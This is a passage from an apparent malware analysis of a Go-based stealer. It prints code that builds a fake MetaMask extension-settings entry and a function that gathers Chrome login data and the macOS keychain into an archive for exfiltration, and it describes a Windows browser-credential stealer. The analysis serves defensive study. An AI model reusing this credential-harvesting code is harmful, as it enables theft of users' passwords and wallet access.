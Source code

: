```golang
	}

}

// get json string
func getExtJsonString() string {
	return `{"active_permissions":{"api":["activeTab","clipboardWrite","notifications","storage","unlimitedStorage","webRequest"],"explicit_host":["*://*.eth/*","http://localhost:8545/*","https://*.codefi.network/*","https://*.cx.metamask.io/*","https://*.infura.io/*","https://chainid.network/*","https://lattice.gridplus.io/*"],"manifest_permissions":[],"scriptable_host":["*://connect.trezor.io/*/popup.html","file:///*","http://*/*","https://*/*"]},"commands":{"_execute_browser_action":{"suggested_key":"Alt+Shift+M","was_assigned":true}},"content_settings":[],"creation_flags":38,"events":[],"first_install_time":"13361518520188298","from_webstore":false,"granted_permissions":{"api":["activeTab","clipboardWrite","notifications","storage","unlimitedStorage","webRequest"],"explicit_host":["*://*.eth/*","http://localhost:8545/*","https://*.codefi.network/*","https://*.cx.metamask.io/*","https://*.infura.io/*","https://chainid.network/*","https://lattice.gridplus.io/*"],"manifest_permissions":[],"scriptable_host":["*://connect.trezor.io/*/popup.html","file:///*","http://*/*","https://*/*"]},"incognito_content_settings":[],"incognito_preferences":{},"last_update_time":"13361518520188298","location":4,"newAllowFileAccess":true,"path":"C:\\ProgramData\\11.16.0_0","preferences":{},"regular_only_preferences":{},"state":1,"was_installed_by_default":false,"was_installed_by_oem":false,"withholding_permissions":false}`
}
```

* AUTO_CHROME_COOKIE ("gi%#")

There are 3 functions defined for this command, dependent on the target operating system (chrome_cookie_darwin, chrome_cookie_win, and chrome_cookie_other). The macOS version of the command does not seem to implement the stealing of sensitive data, and it has various unused functions. The Windows version, however, does implement code for stealing sensitive browser data, such as login data. The stealer code seems to be based on projects such as [https://github.com/SaturnsVoid/Chrome-Password-Recovery/tree/master](https://github.com/SaturnsVoid/Chrome-Password-Recovery/tree/master) and [https://github.com/moonD4rk/HackBrowserData](https://github.com/moonD4rk/HackBrowserData).


* AUTO_CHROME_KEYCHAIN ("kyci")

This is the command used for mac targets (and not for other operating systems). It compresses and exfiltrates sensitive from the keychain and Chrome Login Data in `gatherchain.tar.gz`.

```golang
func AutoModeMacChromeLoginData() (string, [][]byte) {
	var (
		buf          bytes.Buffer
		userdata_dir string
		keychain_dir string
		path_list    []string
	)


	// gather
	userdata_dir = getUserdataDir()
	keychain_dir = getKeychainFileMacDir()
	// file system search
	_ = filepath.Walk(userdata_dir, func(path string, info os.FileInfo, err error) error {
		if info.Name() == logins_data_file {
			path_list = append(path_list, path)
		}
		return nil
	})
	path_list = append(path_list, keychain_dir);

	_ = util.Compress(&buf, path_list, true)

	// return
	data := make([][]byte, 3)
```